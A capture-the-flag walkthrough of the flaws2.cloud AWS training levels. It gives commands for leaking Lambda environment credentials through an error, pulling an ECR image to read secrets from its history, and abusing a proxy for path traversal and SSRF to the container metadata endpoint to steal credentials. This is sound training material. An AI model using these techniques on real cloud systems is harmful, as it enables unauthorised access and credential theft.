# flaws2.cloud Challenges

## Level 1



Query DNS for `level1.flaws2.cloud`:

```shell
dig level1.flaws2.cloud 
```



Reverse lookup the first IP from previous query:

```
dig -x 52.217.112.197
```



When submitting the form, an HTTP request is made to an AWS API:



Perform the request without passing the `code` value in order to trigger an error:

```
curl -s "https://2rfismmoo8.execute-api.us-east-1.amazonaws.com/default/level1?code="
```



Previous request raised an error whose stack discloses lambda environment variables, leaking some AWS credentials; perform again the request and parse it with `jq`:

```
curl -s "https://2rfismmoo8.execute-api.us-east-1.amazonaws.com/default/level1?code=" | grep -v 'malformed input' | jq .
```



Add found credentials to `~/.aws/credentials`:



Use found credentials to list bucket content:

```
aws s3 ls s3://level1.flaws2.cloud/ --region us-east-1 --profile flaws2.level1
```



Win: 




## Level 2

Start URL:

```
http://level2-g9785tw8478k4awxtbox9kk3c5ka8iiz.flaws2.cloud/
```



Enumerate images from repository `level2` using default repository:

```
aws ecr describe-images --profile flaws2.level1 --region us-east-1 --repository-name level2
```



Get login credentials for authenticating to the registry with docker:

```
aws ecr get-login --profile flaws2.level1 --region us-east-1
```



Authenticate to the registry:

```
docker login -u AWS -p <truncated>  https://653711331788.dkr.ecr.us-east-1.amazonaws.com
```



Pull the image:

```
docker image pull 653711331788.dkr.ecr.us-east-1.amazonaws.com/level2:latest
```



Create and start a container from the pulled image:

```
docker container create --name flaws2.level2 653711331788.dkr.ecr.us-east-1.amazonaws.com/level2:latest
docker container start flaws2.level2
```



List last Dockerfile commands:

```
docker history 653711331788.dkr.ecr.us-east-1.amazonaws.com/level2 --format json --no-trunc | jq .
```



Obtained the following credentials: `flaws2:secret_password`





## Level 3

URL: http://level3-oc6ou6dnkw8sszwvdrraxc5t5udrsw3s.flaws2.cloud/




Open a shell on the container created previously:

```
docker exec -it flaws2.level2 /bin/bash
```




Dump the nginx configuration:

```
cat /etc/nginx/sites-enabled/default
```



It seems that an HTTP proxy function is configured at:

```
http://container.target.flaws2.cloud/proxy/<target URL>
```

This proxy functionality is vulnerable to path traversal:

```
http://container.target.flaws2.cloud/proxy/etc/passwd
```



Abuse this vulnerability to obtain the `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI` environment variable value as follows:

```
http://container.target.flaws2.cloud/proxy/proc/self/environ
```



Having the credentials URI  GUID, it's possible to access container credentials at:

```
http://container.target.flaws2.cloud/proxy/http://169.254.170.2/v2/credentials/c71b2888-dec8-4cc3-aa35-53bd7b6096c7
```



Add found credentials to `~/.aws/credentials`:



Use found credentials to list accessible buckets:

```
aws s3 ls --region us-east-1 --profile flaws2.level3
```



Go to `http://the-end-962b72bjahfm5b4wcktm8t9z4sapemjb.flaws2.cloud/` and win:

